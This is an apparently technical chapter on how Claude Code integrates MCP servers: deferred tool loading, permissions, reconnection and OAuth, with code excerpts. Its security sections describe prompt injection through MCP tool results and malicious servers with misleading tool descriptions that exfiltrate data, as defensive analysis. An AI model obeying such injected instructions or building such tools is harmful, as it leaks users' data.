**Auth cache race conditions.** The `writeChain` promise chain serializes cache writes to prevent concurrent read-modify-write races when multiple servers return 401 in the same batch. Without serialization, two concurrent `setMcpAuthCacheEntry` calls could read the same stale cache data, each add their own entry, and one write would overwrite the other. The chain also invalidates the read cache (`authCachePromise = null`) after each write, so subsequent reads see the new entry. The memoized read cache (`authCachePromise`) ensures that N concurrent `isMcpAuthCached` calls during batched connection share a single file read instead of N reads of the same file.

**MCP server name collision.** When two MCP servers are configured with the same name but different configs (e.g., a user-configured server and a project-configured server with the same name), the merge order (enterprise > user > project > plugin > claude.ai) determines which one wins. The first source in the precedence order takes the name; subsequent sources with the same name are silently dropped. This is different from the command registry's shadowing behavior (where both are loaded but `findCommand` returns the first match), because MCP servers with the same name would create confusion in the connection registry.

## Where cc diverges from the published pattern

HER Section 7.2 describes MCP servers as one of six configuration surfaces and warns that "too many tools is bad" because excess tool descriptions push agents into "the dumb zone." CC's implementation addresses this concern directly:

1. **Deferred MCP tool loading.** MCP tools are not included in the initial prompt. They are loaded lazily via `ToolSearch` when the model requests them. This implements HER Pattern 9 (Progressive Tool Expansion) and keeps the initial tool listing compact. The `classifyMcpToolForCollapse` function further reduces the token cost of MCP-sourced content by summarizing less-important results during compaction.

2. **MCP tool description capping.** The `MAX_MCP_DESCRIPTION_LENGTH` (2048 characters) constant caps tool descriptions, preventing OpenAPI-generated servers from consuming excessive context window tokens. This is a direct mitigation for the "dumb zone" problem described in HER Section 7.2.

3. **Security model.** HER Section 12.4 warns that MCP servers are a supply chain attack surface. CC treats MCP servers as untrusted npm packages: they run in separate processes (stdio transport) or over the network (HTTP/SSE transport), and their tool results are treated as untrusted input. The SSRF guard in `src/utils/hooks/ssrfGuard.ts` protects against MCP servers that attempt to reach internal network resources. The `normalizeOAuthErrorBody` function prevents malicious OAuth servers from injecting unexpected responses.

However, CC diverges from the ideal in several important ways:

1. **No sandboxing for stdio MCP servers.** Stdio-based MCP servers run as local child processes with the same permissions as the cc process. A compromised MCP server could read files, access the network, or modify the filesystem. The sandbox network proxy is available for HTTP-based servers, but stdio servers bypass it entirely. This is a known security gap that is accepted as a tradeoff: sandboxing stdio servers would require container-level isolation (e.g., running each MCP server in a separate Docker container), which adds significant complexity and startup latency.

2. **MCP tool execution bypass.** While CC correctly prevents MCP skills from executing shell commands (the `loadedFrom !== 'mcp'` guard in skill command generation), MCP tools themselves have no such restriction. An MCP tool can execute arbitrary code on the server side, and the model has no way to distinguish a safe tool from a malicious one based on the tool description alone. The `allowedTools` permission model mitigates this by requiring explicit user approval for each tool, but the approval is based on the tool's declared description, which could be misleading. A malicious MCP server could declare a tool with an innocuous description (e.g., "Format the current file") that actually exfiltrates data to an external server.

3. **MCP resource access is not sandboxed.** The `ListMcpResourcesTool` and `ReadMcpResourceTool` allow the model to browse and read resources exposed by MCP servers. While this requires explicit tool invocation (not automatic), the model's context window is shared across all tool results. An MCP server could expose sensitive resources (internal documents, API keys, user data) that the model then incorporates into its response, potentially leaking data to other MCP servers through subsequent tool calls. This is the data-leakage vector described in HER Section 6.15, applied to the MCP surface.

## Developer takeaways for building a long-running agent

1. **Model server connections as state machines.** The five-state `MCPServerConnection` union (pending, connected, failed, needs-auth, disabled) makes the lifecycle explicit. Each state transition is handled by a specific code path, and the UI can render different controls for each state. This pattern scales well: add new states (e.g., `rate-limited`) without restructuring the existing logic.

2. **Separate configuration from connection.** `ScopedMcpServerConfig` is immutable data loaded from disk. `MCPServerConnection` is mutable runtime state. Keeping these separate means you can display config even when the server is disconnected, and you can reconnect without re-reading config.

3. **Handle OAuth edge cases explicitly.** Real-world OAuth servers do not follow the spec. Slack returns 200 with error objects. Some servers use non-standard error codes. Normalize these at the HTTP layer (`normalizeOAuthErrorBody`) so that the SDK's token-refresh logic works correctly.

4. **Truncate MCP tool results aggressively.** MCP servers can return arbitrarily large results. The observation masking pattern (HER Section 8.1) applies: summarize old results, preserve recent ones, and persist binary content to disk rather than embedding it inline. The `MAX_MCP_DESCRIPTION_LENGTH` constant caps tool descriptions at 2048 characters.

5. **Treat MCP servers as untrusted.** HER Section 12.4 is correct: MCP servers are a supply chain attack surface. Run them in separate processes. Validate their output. Never trust their tool descriptions to be accurate (the model can be misled by a malicious `description` field). Use SSRF guards for any HTTP-based servers.

6. **Support XAA for enterprise deployments.** Cross-App Access through a corporate IdP enables SSO across all MCP servers. This is critical for enterprise adoption: IT departments will not allow each MCP server to have its own OAuth flow.

7. **Cap MCP tool descriptions.** OpenAPI-generated servers can produce 15-60KB tool descriptions. Cap these at a reasonable length (cc uses 2048 characters) to prevent "the dumb zone" described in HER Section 7.2.

8. **Cache auth state with TTL.** The `isMcpAuthCached` function prevents repeated auth prompts for servers that recently returned 401. A 15-minute TTL is a reasonable default: short enough that the user can retry after fixing their credentials, long enough to prevent prompt spam during a server outage. Serialize cache writes through a promise chain to prevent concurrent race conditions.

9. **Deduplicate plugin MCP servers by signature.** Plugin-provided MCP servers may duplicate manually-configured servers. Use a signature-based deduplication (command array for stdio servers, unwrapped URL for remote servers) to detect and suppress duplicates. Manual servers always take precedence; between plugins, first-loaded wins.

10. **Write MCP config atomically.** The `.mcp.json` file should be written using a temp file + rename pattern. Flush to disk before renaming (via `datasync()`) to ensure durability. Preserve existing file permissions (via `chmod` before rename) so that restrictive permissions are not widened. Clean up the temp file on rename failure to avoid orphaned temp files.

```mermaid
stateDiagram-v2
    [*] --> Pending: Config loaded
    Pending --> Connected: Transport handshake success
    Pending --> Failed: Transport error
    Pending --> NeedsAuth: 401 / OAuth required
    Connected --> Failed: Session expired / network error
    Failed --> Pending: Reconnect attempt
    NeedsAuth --> Connected: OAuth flow complete
    Connected --> Disabled: User toggles off
    Disabled --> Pending: User toggles on
    Connected --> [*]: Session end / cleanup
```

```mermaid
sequenceDiagram
    participant CC as cc Client
    participant Auth as ClaudeAuthProvider
    participant AS as Authorization Server
    participant RS as MCP Server
    CC->>Auth: discoverAuthorizationServerMetadata
    Auth->>AS: GET /.well-known/oauth-authorization-server
    AS-->>Auth: Metadata (issuer, auth_endpoint, token_endpoint)
    CC->>Auth: Start PKCE flow (code_verifier, code_challenge)
    Auth->>AS: GET /authorize?code_challenge=...&redirect_uri=...
    AS-->>Auth: Authorization code (via callback)
    Auth->>AS: POST /token (code, code_verifier)
    AS-->>Auth: Access token + refresh token
    CC->>RS: Connect with Bearer token
    RS-->>CC: Connected + tools/resources
    Note over CC,RS: Token expires after some time
    CC->>Auth: Refresh token
    Auth->>AS: POST /token (refresh_token)
    AS-->>Auth: New access token
```

```mermaid
flowchart
    A[MCP tool invoked] --> B{Session expired?}
    B -->|yes| C[Clear connection cache]
    C --> D[ensureConnectedClient]
    D --> E[Retry tool call]
    B -->|no| F[Call tool via client]
    F --> G{isError: true?}
    G -->|yes| H[Throw tool call error with _meta]
    G -->|no| I{Result too large?}
    I -->|yes| J[truncateMcpContentIfNeeded]
    I -->|no| K{Binary content?}
    J --> K
    K -->|yes| L[persistBinaryContent to disk]
    K -->|no| M[Return tool result]
    L --> M
    E --> F
```
# MCP Tools: Passthrough Permissions and Deferred Loading

## Overview

Claude Code's Model Context Protocol (MCP) integration exposes external tools, resources, and commands from third-party servers to the agent. But unlike built-in tools where cc controls every line of code, MCP tools arrive from untrusted processes over network or stdio transports. The harness must solve two opposing constraints: (1) MCP tools must be available so the model can leverage external capabilities, and (2) their untrusted nature demands isolation, deferral, and a permission model that does not grant implicit trust. This chapter examines the three MCP-facing tools -- `MCPTool`, `ListMcpResourcesTool`, and `ReadMcpResourceTool` -- and the `McpAuthTool` used for OAuth-gated servers. It traces how cc implements HER Pattern 9 (Progressive Tool Expansion) through deferred loading, how passthrough permissions avoid over-promising on safety, and how the `ToolSearch` system surfaces MCP tools only when contextually needed.

The design embodies a core harness principle: minimize the model's cognitive surface at startup, then expand it on demand. MCP tools are deferred not via a `shouldDefer` flag on the tool itself, but through the `isMcp: true` property. The `isDeferredTool()` function in `src/tools/ToolSearchTool/prompt.ts:L62-L108` checks `tool.isMcp === true` before examining `tool.shouldDefer`, so all MCP tools are automatically deferred by category. The model discovers deferred tools through `ToolSearchTool`, which lists each by name. This keeps the prompt compact when no MCP interaction is needed, and expands the surface only when the task requires it.

## Data structures and contracts

### MCPTool: the passthrough shell

`MCPTool` in `src/tools/MCPTool/MCPTool.ts` is a minimal scaffold. It does not implement real tool logic; instead, it serves as a template that `fetchToolsForClient` in `src/services/mcp/client.ts` clones for each discovered MCP tool:

```typescript
// src/tools/MCPTool/MCPTool.ts:L27-L61
export const MCPTool = buildTool({
  isMcp: true,
  isOpenWorld() {
    return false
  },
  name: 'mcp',
  maxResultSizeChars: 100_000,
  async description() {
    return DESCRIPTION
  },
  async prompt() {
    return PROMPT
  },
  get inputSchema(): InputSchema {
    return inputSchema()
  },
  get outputSchema(): OutputSchema {
    return outputSchema()
  },
  async call() {
    return {
      data: '',
    }
  },
  async checkPermissions(): Promise<PermissionResult> {
    return {
      behavior: 'passthrough',
      message: 'MCPTool requires permission.',
    }
  },
  // ...
})
```

Key observations: `inputSchema` uses `z.object({}).passthrough()`, allowing any key-value input because MCP tools define their own schemas. The `call()` method returns empty data -- it is overridden per-tool at connection time in `src/services/mcp/client.ts:L1833-L1971`. The `checkPermissions()` returns `behavior: 'passthrough'` with a suggestion to add a permission rule, meaning every MCP tool invocation goes through the standard permission pipeline but defaults to requiring user approval unless a rule explicitly allows it. Note that `MCPTool` does not set `shouldDefer: true`; instead, deferral is determined by the `isMcp: true` property, which `isDeferredTool()` in `src/tools/ToolSearchTool/prompt.ts:L62-L108` checks: `if (tool.isMcp === true) return true`. This means all MCP tools are automatically deferred regardless of any `shouldDefer` flag.

### The per-tool override in fetchToolsForClient

When `fetchToolsForClient` discovers tools from a connected MCP server, it spreads `MCPTool` as the base and overrides each field with server-specific values:

```typescript
// src/services/mcp/client.ts:L1766-L1799
return toolsToProcess
        .map((tool): Tool => {
  const fullyQualifiedName = buildMcpToolName(client.name, tool.name)
  return {
    ...MCPTool,
    name: skipPrefix ? tool.name : fullyQualifiedName,
    mcpInfo: { serverName: client.name, toolName: tool.name },
    isMcp: true,
    searchHint:
      typeof tool._meta?.['anthropic/searchHint'] === 'string'
        ? tool._meta['anthropic/searchHint'].replace(/\s+/g, ' ').trim() || undefined
        : undefined,
    alwaysLoad: tool._meta?.['anthropic/alwaysLoad'] === true,
    async description() {
      return tool.description ?? ''
    },
    async prompt() {
      const desc = tool.description ?? ''
      return desc.length > MAX_MCP_DESCRIPTION_LENGTH
        ? desc.slice(0, MAX_MCP_DESCRIPTION_LENGTH) + '… [truncated]'
        : desc
    },
    isConcurrencySafe() {
      return tool.annotations?.readOnlyHint ?? false
    },
    isReadOnly() {
      return tool.annotations?.readOnlyHint ?? false
    },
    // ...
  }
})
```

The `fullyQualifiedName` follows the `mcp__<server>__<tool>` convention (e.g., `mcp__slack__search_messages`). The `mcpInfo` field carries the server/tool pair so the permission system can match rules while the dispatch pipeline knows which MCP server to route the call to. The `searchHint` and `alwaysLoad` fields come from the `_meta` annotation on the MCP tool definition, giving server authors a way to control progressive disclosure.

### ListMcpResourcesTool and ReadMcpResourceTool

These two tools expose MCP's resources protocol. `ListMcpResourcesTool` in `src/tools/ListMcpResourcesTool/ListMcpResourcesTool.ts` takes an optional `server` filter and returns an array of resource descriptors:

```typescript
// src/tools/ListMcpResourcesTool/ListMcpResourcesTool.ts:L15-L35
const inputSchema = lazySchema(() =>
  z.object({
    server: z.string().optional().describe('Optional server name to filter resources by'),
  }),
)
const outputSchema = lazySchema(() =>
  z.array(
    z.object({
      uri: z.string().describe('Resource URI'),
      name: z.string().describe('Resource name'),
      mimeType: z.string().optional().describe('MIME type of the resource'),
      description: z.string().optional().describe('Resource description'),
      server: z.string().describe('Server that provides this resource'),
    }),
  ),
)
```

The tool's prompt in `src/tools/ListMcpResourcesTool/prompt.ts` defines two exported constants. `DESCRIPTION` provides a short summary for the tool registry: "Lists available resources from configured MCP servers." `PROMPT` provides the model-facing prompt that describes the `server` parameter (optional, for filtering by server name) and explains that each returned resource includes all standard MCP resource fields plus a `server` field indicating which server the resource belongs to. The prompt includes two usage examples: `listMcpResources` (all servers) and `listMcpResources({ server: "myserver" })` (specific server).

The tool's UI rendering in `src/tools/ListMcpResourcesTool/UI.tsx` uses Ink's `MessageResponse` and `OutputLine` components. The `renderToolUseMessage` function displays either "List MCP resources from server X" or "List all MCP resources" depending on whether a server filter is provided. The `renderToolResultMessage` function formats the output as pretty-printed JSON via `jsonStringify` and renders it through `OutputLine`, or shows "(No resources found)" in a dimmed `Text` component when the result array is empty.

`ReadMcpResourceTool` in `src/tools/ReadMcpResourceTool/ReadMcpResourceTool.ts` takes a `server` name and `uri` and returns the resource content, with special handling for binary blobs:

```typescript
// src/tools/ReadMcpResourceTool/ReadMcpResourceTool.ts:L22-L45
export const inputSchema = lazySchema(() =>
  z.object({
    server: z.string().describe('The MCP server name'),
    uri: z.string().describe('The resource URI to read'),
  }),
)
export const outputSchema = lazySchema(() =>
  z.object({
    contents: z.array(
      z.object({
        uri: z.string().describe('Resource URI'),
        mimeType: z.string().optional().describe('MIME type of the content'),
        text: z.string().optional().describe('Text content of the resource'),
        blobSavedTo: z.string().optional().describe('Path where binary blob content was saved'),
      }),
    ),
  }),
)
```

The prompt in `src/tools/ReadMcpResourceTool/prompt.ts` defines `DESCRIPTION` and `PROMPT` exports similar to its list counterpart. The `DESCRIPTION` summarizes the tool as reading a specific resource from an MCP server, listing the `server` and `uri` parameters. The `PROMPT` provides the model-facing documentation that describes both parameters as required and includes a usage example: `readMcpResource({ server: "myserver", uri: "my-resource-uri" })`.

The UI in `src/tools/ReadMcpResourceTool/UI.tsx` renders tool-use messages as `Read resource "uri" from server "name"`, with a `userFacingName` function returning `readMcpResource`. The `renderToolResultMessage` function handles empty outputs by showing "(No content)" in a dimmed `Text` component wrapped in a `Box` container, and non-empty outputs by formatting them as pretty-printed JSON through `OutputLine`. The `renderToolUseMessage` function returns `null` if either `uri` or `server` is missing from the input, providing a graceful degradation when the model sends an incomplete request.

Both tools have `isMcp: true` (inherited from `MCPTool`), which means they are deferred by `isDeferredTool()`. They also set `isConcurrencySafe: true` and `isReadOnly: true` -- they are read-only, safe to run concurrently, and excluded from the initial prompt.

### Permission result with rule suggestions

The `checkPermissions()` on the per-tool overrides returns a passthrough result that includes a suggestion to add a rule to local settings:

```typescript
// src/services/mcp/client.ts:L1814-L1831
async checkPermissions() {
  return {
    behavior: 'passthrough' as const,
    message: 'MCPTool requires permission.',
    suggestions: [
      {
        type: 'addRules' as const,
        rules: [
          {
            toolName: fullyQualifiedName,
            ruleContent: undefined,
          },
        ],
        behavior: 'allow' as const,
        destination: 'localSettings' as const,
      },
    ],
  }
}
```

This means the first time the model calls an MCP tool, the user sees the permission prompt with a one-click option to auto-approve future calls to that tool by adding a rule. The rule is stored in local settings (not project settings), preventing accidental commits of overly permissive rules.

## Control flow

### Deferred loading and ToolSearch integration

The deferred loading mechanism follows HER Pattern 9: start with fewer than 20 tools, activate more on demand. All three MCP tool types have `isMcp: true`, which causes `isDeferredTool()` in `src/tools/ToolSearchTool/prompt.ts` to return `true`, excluding them from the initial tool list. Instead, they are cataloged by `ToolSearchTool` with their names and optional `searchHint` strings.

The impact on prompt size is substantial. An MCP server exposing 20 tools, each with a 500-character description and a 200-character input schema, would add roughly 14,000 tokens to the system prompt if loaded eagerly. By deferring, those tokens are spent only when the model actually requests the tool. For a session where the user asks cc to refactor a Python module, the Slack MCP tools, the database MCP tools, and the Jira MCP tools remain deferred -- they are never loaded into context.

```mermaid
sequenceDiagram
    participant Model
    participant ToolSearch
    participant MCPToolWrapper
    participant MCPServer
    Model->>ToolSearch: search for "slack messages"
    ToolSearch-->>Model: mcp__slack__search_messages available
    Model->>MCPToolWrapper: call mcp__slack__search_messages
    MCPToolWrapper->>MCPServer: tools/call with args
    MCPServer-->>MCPToolWrapper: result
    MCPToolWrapper-->>Model: processed result
```

The `ToolSearchTool` in `src/tools/ToolSearchTool/ToolSearchTool.ts` implements a multi-strategy search over deferred tools. The `searchToolsWithKeywords` function uses a tiered scoring algorithm that examines three signals: the parsed tool name parts, the `searchHint` string, and the tool's description. For MCP tools, the `parseToolName` helper splits the `mcp__<server>__<tool>` name into searchable parts by stripping the `mcp__` prefix and splitting on `__` and `_`. The algorithm also supports required terms prefixed with `+` (e.g., `+slack send` requires "slack" to appear), and a `select:` prefix for direct tool selection. When the model calls `ToolSearch`, the search matches against these signals, and if the model then requests the deferred tool, the harness loads it into the active tool set. This two-step process ensures that MCP tool schemas and descriptions only consume context tokens when the model actually needs them.

The `alwaysLoad` field from `_meta['anthropic/alwaysLoad']` provides an escape hatch: servers can mark critical tools that should be loaded immediately. The `isDeferredTool()` function checks `alwaysLoad` first -- `if (tool.alwaysLoad === true) return false` -- before checking `isMcp`.

### MCP tool call execution

The `call()` override in `fetchToolsForClient` implements session-retry logic. When an MCP tool call fails with `McpSessionExpiredError`, the code retries once after the connection cache is cleared and a fresh client is obtained:

```typescript
// src/services/mcp/client.ts:L1859-L1922
const startTime = Date.now()
const MAX_SESSION_RETRIES = 1
for (let attempt = 0; ; attempt++) {
  try {
    const connectedClient = await ensureConnectedClient(client)
    const mcpResult = await callMCPToolWithUrlElicitationRetry({
      client: connectedClient,
      clientConnection: client,
      tool: tool.name,
      args,
      meta,
      signal: context.abortController.signal,
      setAppState: context.setAppState,
      onProgress: onProgress && toolUseId
        ? progressData => {
            onProgress({ toolUseID: toolUseId, data: progressData })
          }
        : undefined,
      handleElicitation: context.handleElicitation,
    })
    return { data: mcpResult.content, ... }
  } catch (error) {
    if (error instanceof McpSessionExpiredError && attempt < MAX_SESSION_RETRIES) {
      logMCPDebug(client.name, `Retrying tool '${tool.name}' after session recovery`)
      continue
    }
    // ... error wrapping
    throw error
  }
}
```

The `ensureConnectedClient` function checks whether the memoized connection is still valid. If the cache was cleared (e.g., by an `onclose` handler), it reconnects transparently:

```typescript
// src/services/mcp/client.ts:L1688-L1704
export async function ensureConnectedClient(
  client: ConnectedMCPServer,
): Promise<ConnectedMCPServer> {
  if (client.config.type === 'sdk') {
    return client
  }
  const connectedClient = await connectToServer(client.name, client.config)
  if (connectedClient.type !== 'connected') {
    throw new TelemetrySafeError_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS(
      `MCP server "${client.name}" is not connected`,
      'MCP server not connected',
    )
  }
  return connectedClient
}
```

### Connection lifecycle and reconnection

The MCP client manages the full connection lifecycle in `src/services/mcp/client.ts`. The `connectToServer` function is memoized by a cache key derived from the server name and configuration. When the server disconnects, the `onclose` handler clears both the connection cache and the downstream fetch caches:

```typescript
// src/services/mcp/client.ts:L1374-L1397
client.onclose = () => {
  const key = getServerCacheKey(name, serverRef)
  fetchToolsForClient.cache.delete(name)
  fetchResourcesForClient.cache.delete(name)
  fetchCommandsForClient.cache.delete(name)
  if (feature('MCP_SKILLS')) {
    fetchMcpSkillsForClient!.cache.delete(name)
  }
  connectToServer.cache.delete(key)
}
```

This cache-clearing is critical: without it, a reconnection would return stale tools from the old connection, which may have a different tool set if the server was updated between connections. The fetch caches are keyed by server name (stable across reconnects) rather than by connection object identity, so they must be explicitly invalidated.

The connection error handler implements a counter for terminal connection errors. After `MAX_ERRORS_BEFORE_RECONNECT = 3` consecutive terminal errors, the handler closes the transport, which triggers `onclose`. The terminal error classification at `src/services/mcp/client.ts:L1249-L1263` checks for specific network error substrings (`ECONNRESET`, `ETIMEDOUT`, `EPIPE`, `EHOSTUNREACH`, `ECONNREFUSED`, `Body Timeout Error`, `terminated`, `SSE stream disconnected`, `Failed to reconnect SSE stream`), mapping error messages to deterministic reconnection decisions without heuristics or timeouts.

### Transport selection at connection time

The `connectToServer` function selects the transport based on the server configuration type. The MCP SDK provides several standard transports:

```mermaid
classDiagram
    class Transport {
        +send(message)
        +close()
    }
    class StdioClientTransport {
        +command: string
        +args: string[]
        +pid: number
    }
    class SSEClientTransport {
        +url: URL
        +authProvider: ClaudeAuthProvider
    }
    class StreamableHTTPClientTransport {
        +url: URL
        +authProvider: ClaudeAuthProvider
    }
    Transport <|-- StdioClientTransport
    Transport <|-- SSEClientTransport
    Transport <|-- StreamableHTTPClientTransport
```

For `stdio` servers, cc spawns a child process using `StdioClientTransport`. For `sse` and `http` servers, it creates network transports with OAuth via `ClaudeAuthProvider`. The `claudeai-proxy` type routes through Anthropic's MCP proxy. The `wrapFetchWithTimeout` function wraps every fetch call with a fresh 60-second timeout, avoiding a bug where a single `AbortSignal.timeout()` becomes stale after 60 seconds.

### Resource listing with LRU caching

`ListMcpResourcesTool.call()` iterates over connected MCP clients, calls `ensureConnectedClient` and `fetchResourcesForClient` for each, and collects results. The `fetchResourcesForClient` function is LRU-cached by server name, so repeated listings do not hit the MCP server:

```typescript
// src/tools/ListMcpResourcesTool/ListMcpResourcesTool.ts:L66-L101
async call(input, { options: { mcpClients } }) {
  const { server: targetServer } = input
  const clientsToProcess = targetServer
    ? mcpClients.filter(client => client.name === targetServer)
    : mcpClients
  if (targetServer && clientsToProcess.length === 0) {
    throw new Error(
      `Server "${targetServer}" not found. Available servers: ${mcpClients.map(c => c.name).join(', ')}`,
    )
  }
  const results = await Promise.all(
    clientsToProcess.map(async client => {
      if (client.type !== 'connected') return []
      try {
        const fresh = await ensureConnectedClient(client)
        return await fetchResourcesForClient(fresh)
      } catch (error) {
        logMCPError(client.name, errorMessage(error))
        return []
      }
    }),
  )
  return { data: results.flat() }
}
```

If one server's reconnection fails, the error is logged but does not sink the entire result -- the tool returns whatever resources could be fetched from the remaining servers.

### Binary blob persistence in ReadMcpResourceTool

`ReadMcpResourceTool` intercepts binary blob responses from MCP servers. Instead of injecting raw base64 into the model's context (which wastes tokens and is unreadable), it decodes the blob, writes it to disk, and returns a path reference:

```typescript
// src/tools/ReadMcpResourceTool/ReadMcpResourceTool.ts:L106-L139
const contents = await Promise.all(
  result.contents.map(async (c, i) => {
    if ('text' in c) {
      return { uri: c.uri, mimeType: c.mimeType, text: c.text }
    }
    if (!('blob' in c) || typeof c.blob !== 'string') {
      return { uri: c.uri, mimeType: c.mimeType }
    }
    const persistId = `mcp-resource-${Date.now()}-${i}-${Math.random().toString(36).slice(2, 8)}`
    const persisted = await persistBinaryContent(
      Buffer.from(c.blob, 'base64'),
      c.mimeType,
      persistId,
    )
    if ('error' in persisted) {
      return {
        uri: c.uri,
        mimeType: c.mimeType,
        text: `Binary content could not be saved to disk: ${persisted.error}`,
      }
    }
    return {
      uri: c.uri,
      mimeType: c.mimeType,
      blobSavedTo: persisted.filepath,
      text: getBinaryBlobSavedMessage(persisted.filepath, c.mimeType, persisted.size, ...),
    }
  }),
)
```

This is a concrete instance of observation masking: the model receives a compact text reference (file path and size) instead of potentially megabytes of base64 data. The model can then use `FileReadTool` to inspect the file if needed.

## Edge cases and failure modes

### Prompt injection via MCP responses

HER Section 6.13 identifies prompt injection via MCP tool responses as a critical vulnerability. A malicious MCP server can return tool results containing instructions that manipulate agent behavior. The cc codebase addresses this through several layers:

1. **Passthrough permissions**: MCP tools require explicit user approval, preventing automatic execution of untrusted tool outputs.
2. **Content truncation**: The `MAX_MCP_DESCRIPTION_LENGTH` cap of 2048 characters (`src/services/mcp/client.ts:L218`) limits the attack surface of tool descriptions.
3. **Server instructions truncation**: Server instructions from MCP servers are truncated at 2048 characters (`src/services/mcp/client.ts:L1161-L1170`).
4. **Binary blob persistence**: Large or binary outputs are persisted to disk rather than injected into context.
5. **Unicode sanitization**: MCP tool data is passed through `recursivelySanitizeUnicode` before processing (`src/services/mcp/client.ts:L1758`).

Despite these mitigations, cc does not implement full input sanitization on MCP tool results. A compromised MCP server that returns carefully crafted text in a tool result could still influence the model's behavior. This is a known gap documented in HER Section 12.4.

### Connection loss during tool execution

MCP servers can disconnect mid-call. The `connectToServer` memoization cache is cleared on `onclose`, so subsequent calls reconnect transparently. But an in-flight `callTool()` promise rejects with `McpError -32000 "Connection closed"`. The session-retry loop in the `call()` override handles `McpSessionExpiredError` but does not automatically retry on generic connection closures -- those propagate as errors to the model, which can decide whether to retry.

### Stale auth caches and the 15-minute TTL

When a remote MCP server returns a 401, cc caches the "needs-auth" state for 15 minutes (`MCP_AUTH_CACHE_TTL_MS` in `src/services/mcp/client.ts:L257`). This prevents repeated failed connection attempts for servers that require manual authentication. But if the user authenticates outside cc (e.g., by running `mcp auth` in another terminal), the cache entry is not invalidated, and cc will skip connection attempts for up to 15 minutes.

The auth cache is stored in a JSON file at `~/.claude/mcp-needs-auth-cache.json` with entries keyed by server name and a timestamp:

```typescript
// src/services/mcp/client.ts:L259-L309
type McpAuthCacheData = Record<string, { timestamp: number }>

function setMcpAuthCacheEntry(serverId: string): void {
  writeChain = writeChain
    .then(async () => {
      const cache = await getMcpAuthCache()
      cache[serverId] = { timestamp: Date.now() }
      const cachePath = getMcpAuthCachePath()
      await mkdir(dirname(cachePath), { recursive: true })
      await writeFile(cachePath, jsonStringify(cache))
      authCachePromise = null
    })
    .catch(() => {})
}
```

The `writeChain` promise serialization prevents concurrent read-modify-write races when multiple servers return 401 in the same batch. After writing, the read cache is invalidated (`authCachePromise = null`) so subsequent reads see the new entry.

### Process cleanup for stdio MCP servers

When a stdio MCP server is shut down, cc follows an escalating signal sequence: SIGINT, then SIGTERM after 100ms, then SIGKILL after another 400ms. The total cleanup time is capped at 600ms to keep the CLI responsive. The implementation at `src/services/mcp/client.ts:L1429-L1530` uses a polling interval (50ms) to detect early process exit and a 600ms absolute failsafe timeout:

```typescript
// src/services/mcp/client.ts:L1435-L1526
logMCPDebug(name, 'Sending SIGINT to MCP server process')
try {
  process.kill(childPid, 'SIGINT')
} catch (error) { /* ... */ }
await new Promise<void>(async resolve => {
  let resolved = false
  const checkInterval = setInterval(() => {
    try { process.kill(childPid, 0) } catch {
      if (!resolved) {
        resolved = true; clearInterval(checkInterval); clearTimeout(failsafeTimeout); resolve()
      }
    }
  }, 50)
  const failsafeTimeout = setTimeout(() => {
    if (!resolved) { resolved = true; clearInterval(checkInterval); resolve() }
  }, 600)
  try {
    await sleep(100)
    if (!resolved) {
      try { process.kill(childPid, 0) } catch { /* already exited */ }
      logMCPDebug(name, 'SIGINT failed, sending SIGTERM')
      try { process.kill(childPid, 'SIGTERM') } catch { /* ... */ }
      await sleep(400)
      if (!resolved) {
        try { process.kill(childPid, 'SIGKILL') } catch { /* ... */ }
      }
    }
  } catch { /* handle errors in escalation */ }
})
```

This escalation is necessary because Docker containers running MCP servers often ignore SIGINT and require SIGTERM for graceful shutdown, while some processes need the final SIGKILL guarantee.

### Resource tool deduplication

When multiple MCP servers support resources, `ListMcpResourcesTool` and `ReadMcpResourceTool` are added only once, alongside the first server that reports resource support (`src/services/mcp/client.ts:L2361-L2364`). This prevents the model from seeing duplicate resource tools in its tool list. However, if the first resource-capable server disconnects, the resource tools remain in the tool list but may fail when the model tries to use them with that server's name.

### Batched connection processing

The `getMcpToolsCommandsAndResources` function in `src/services/mcp/client.ts:L2226-L2403` orchestrates the startup connection of all configured MCP servers. It partitions servers into local (stdio/sdk) and remote (sse/http/claudeai-proxy) groups, then processes each group with its own concurrency limit. Local servers use lower concurrency (`MCP_SERVER_CONNECTION_BATCH_SIZE`, default 3) to avoid process spawning contention, while remote servers use higher concurrency (`MCP_REMOTE_SERVER_CONNECTION_BATCH_SIZE`, default 20).

For each server that connects successfully, the function fetches tools, commands, skills (if feature-gated), and resources in parallel. It also adds the `ListMcpResourcesTool` and `ReadMcpResourceTool` exactly once, when the first resource-capable server is encountered.

### McpAuthTool for OAuth-gated servers

When a remote MCP server requires authentication, cc creates an `McpAuthTool` that appears in the tool list as a placeholder. This tool guides the user through the OAuth flow and, once authentication is complete, triggers a reconnection to the server. The `McpAuthTool` is created by `createMcpAuthTool` in `src/tools/McpAuthTool/McpAuthTool.ts` and is the only tool that appears for servers in the `'needs-auth'` state.

The `createMcpAuthTool` function at `src/tools/McpAuthTool/McpAuthTool.ts:L49-L84` returns a tool object with `name: buildMcpToolName(serverName, 'authenticate')` and `isMcp: true`. Its `checkPermissions()` returns `{ behavior: 'allow' }` -- since the whole point is to let the model invoke the auth flow without additional gating. This makes it the only MCP-derived tool that auto-approves, an intentional design choice: the tool exists solely to bootstrap the loading of the real tools, and gating it behind a permission prompt would create a circular dependency (the user cannot approve the tool without seeing it, but cannot see it without the tool being available).

```typescript
// src/tools/McpAuthTool/McpAuthTool.ts:L49-L84
export function createMcpAuthTool(
  serverName: string,
  config: ScopedMcpServerConfig,
): Tool<InputSchema, McpAuthOutput> {
  const url = getConfigUrl(config)
  const transport = config.type ?? 'stdio'
  const location = url ? `${transport} at ${url}` : transport
  const description =
    `The \`${serverName}\` MCP server (${location}) is installed but requires authentication. ` +
    `Call this tool to start the OAuth flow — you'll receive an authorization URL to share with the user. ` +
    `Once the user completes authorization in their browser, the server's real tools will become available automatically.`
  return {
    name: buildMcpToolName(serverName, 'authenticate'),
    isMcp: true,
    mcpInfo: { serverName, toolName: 'authenticate' },
    isEnabled: () => true,
    isConcurrencySafe: () => false,
    isReadOnly: () => false,
    toAutoClassifierInput: () => serverName,
    userFacingName: () => `${serverName} - authenticate (MCP)`,
    maxResultSizeChars: 10_000,
    renderToolUseMessage: () => `Authenticate ${serverName} MCP server`,
    async description() { return description },
    async prompt() { return description },
    get inputSchema(): InputSchema { return inputSchema() },
    async checkPermissions(input): Promise<PermissionDecision> {
      return { behavior: 'allow', updatedInput: input }
    },
    // ...
  }
}
```

